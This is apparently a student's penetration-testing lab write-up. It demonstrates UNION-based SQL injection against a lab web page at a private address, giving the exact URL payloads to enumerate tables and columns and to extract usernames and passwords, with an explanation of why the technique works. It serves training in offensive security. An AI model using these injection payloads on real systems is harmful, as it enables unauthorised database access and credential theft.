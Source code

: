 ### 9.4.5.9 Exercises
#### 1. Enumerate the structure of the database using SQL injection.

- This command displays all the tables in the Database Schema Info.  

  ```sql
  http://192.168.216.10/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
  ```

  ![image-20200626142918481](.9.4.5.9.assets/image-20200626142918481.png)

- From here, we can investigate the columns of any table with the following command:

  ```sql
  http://192.168.216.10/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='feedback'
  ```

  ![image-20200626143433854](.9.4.5.9.assets/image-20200626143433854.png)

- We can further investigate these columns, 2 at a time because we only have 2 viewable slots provided by our vulnerable query.

  ```sql
  http://192.168.216.10/debug.php?id=1 union all select 1, id, name from feedback
  ```

  ![image-20200626143501048](.9.4.5.9.assets/image-20200626143501048.png)

#### 2. Understand how and why you can pull data from your injected commands and have it displayed on the screen.

1. We are relying on the vulnerable code, which allows us to append the UNION statement to the intended query.  Because it does not check for validation, we are able to tag on any code we want.
2. The UNION statement is where we are submitting our own queries, which returns the results along with the legitimate query.  Our results have to be the same number of columns as the original query (3 in this case) per the UNION statement's requirements.
3. The statement queries for 3 columns, but the page only displays 2.  So we pad our UNION statement with a literal value (1) in the first column that isn't display.  Then we choose to display the value of our queries in the 2nd & 3rd columns, which are displayed on the page.

#### 3. Extract all users and associated passwords from the database.

```sql
http://192.168.216.10/debug.php?id=1 union all select 1, username, password from users
```

![image-20200626144017876](.9.4.5.9.assets/image-20200626144017876.png)